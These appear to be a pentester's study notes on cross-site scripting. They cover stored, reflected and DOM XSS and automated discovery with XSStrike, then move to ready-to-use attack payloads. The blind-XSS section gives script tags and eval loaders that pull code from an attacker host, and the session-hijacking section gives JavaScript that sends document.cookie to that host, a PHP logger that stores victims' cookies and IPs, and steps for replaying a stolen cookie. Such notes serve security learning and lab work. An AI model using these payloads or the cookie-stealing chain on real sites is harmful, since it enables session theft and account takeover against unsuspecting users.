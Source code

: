 ```yaml
---
layout: default
title: XSS
permalink: /Web/xss/
---
```

#XSS
XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side.
When a vulnerable web application does not properly sanitize user input, a malicious user can inject extra JavaScript code in an input field (e.g., comment/reply), so once another user views the same page, they unknowingly execute the malicious JavaScript code.
- A basic example of an XSS attack is having the target user unwittingly send their session cookie to the attacker's web server.
- Another example is having the target's browser execute API calls that lead to a malicious action, like changing the user's password to a password of the attacker's choosing.
- There are many other types of XSS attacks, from Bitcoin mining to displaying ads.

As XSS attacks execute JavaScript code within the browser, they are limited to the browser's JS engine (i.e., V8 in Chrome). They cannot execute system-wide JavaScript code to do something like system-level code execution. In modern browsers, they are also limited to the same domain of the vulnerable website. But if you identify a binary vulnerability in a web browser (e.g., a Heap overflow in Chrome), you can utilize an XSS vulnerability to execute a JavaScript exploit on the target's browser, which eventually breaks out of the browser's sandbox and executes code on the user's machine.
<!--
| Type                        | Description                                                                                                                                                                           |
|-----------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Stored (Persistent) XSS     | The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments).                         |
| Reflected (Non-Persistent) XSS | Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message).                  |
| DOM-based XSS               | Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags). |
-->
<table>
  <thead>
    <tr>
      <th>Type</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Stored (Persistent) XSS</td>
      <td>The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments).</td>
    </tr>
    <tr>
      <td>Reflected (Non-Persistent) XSS</td>
      <td>Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message).</td>
    </tr>
    <tr>
      <td>DOM-based XSS</td>
      <td>Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags).</td>
    </tr>
  </tbody>
</table>

These attacks can be used for defacing, phishing or session hijacking attacks.

## Testing Payloads
```
<script>alert(window.origin)</script>
```
*Note: Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of window.origin in the alert box, instead of a static value like 1. In this case, the alert box would reveal the URL it is being executed on, and will confirm which form is the vulnerable one.*
As some modern browsers may block the `alert()` JavaScript function in specific locations, it may be handy to know a few other basic XSS payloads to verify the existence of XSS. One such XSS payload is `<plaintext>`, which will stop rendering the HTML code that comes after it and display it as plaintext. Another easy-to-spot payload is `<script>print()</script>` that will pop up the browser print dialog, which is unlikely to be blocked by any browsers.
If the `<script>` tags are not allowed, we can use `<img src="" onerror=alert(window.origin)>`

### Automated Discovery
Almost all Web Application Vulnerability Scanners (like Nessus, Burp Pro, or ZAP) have various capabilities for detecting all three types of XSS vulnerabilities.

#### XSS Strike
```
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py
```
```
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```

### Manual Discovery

We can find huge lists of XSS payloads online, like the one on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or the one in [PayloadBox](https://github.com/payloadbox/xss-payload-list). We can then begin testing these payloads one by one by copying each one and adding it in our form, and seeing whether an alert box pops up, but it is unefficient.<br>
The most reliable method of detecting XSS vulnerabilities is manual code review, which should cover both back-end and front-end code. If we understand precisely how our input is being handled all the way until it reaches the web browser, we can write a custom payload that should work with high confidence.

## Reflected XSS
If this XSS vulnerability is Non-Persistent, how would we target victims with it?
This depends on which HTTP request is used to send our input to the server.
If our request was a GET request, the parameters and data is part of the URL, so to target a user, we can send them a URL containing our payload.
```
http://94.237.61.242:53290/index.php?task=payload
```

## DOM XSS
DOM XSS occurs when JavaScript is used to change the page source through the Document Object Model (DOM).
There will be no network traffic and We the input parameter in the URL is using a hashtag # for the item we added, which means that the parameter is a client-side parameter that is completely processed on the browser.
To target a user with this DOM XSS vulnerability, we can once again copy the URL from the browser and share it with them, and once they visit it, the JavaScript code should execute. 

# Blind XSS Detection
A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to. Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins).
Let's say there are multiple inputs. We won't find the vulnerable one with XSS Strike. Although we cannot see how the output is handled or which fields may execute our code, we can try to load a remote scripts and e.g. change each script name or loacation to the name of the field which requests it.
```
<script src="http://OUR_IP/username"></script>
```
So if we get a request for `/username`, then we know that the `username` field is vulnerable to XSS.
Then we can try different payloads for each field. We can get inspiration from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):
```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
We can use e.g. netcat or php for listening:
```
sudo php -S 0.0.0.0:80
```
So:
```
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```
# Session Hijacking
As usual, we can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):
```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
We can put `new Image().src='http://OUR_IP/index.php?c='+document.cookie` into `script.js` where our webserver is runnig.
Then load this script from the vulnerable field:
```
<script src=http://OUR_IP/script.js></script>
```
We can put this php script into our webroot folder as `index.php` to save the cookie value:
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
After we get a cookie, we can open our browser, navigate to the login page and put the cookie in the 'Storage' bar in the Developer Tool. (Click '+' button on the top right corner and add our cookie name and value.
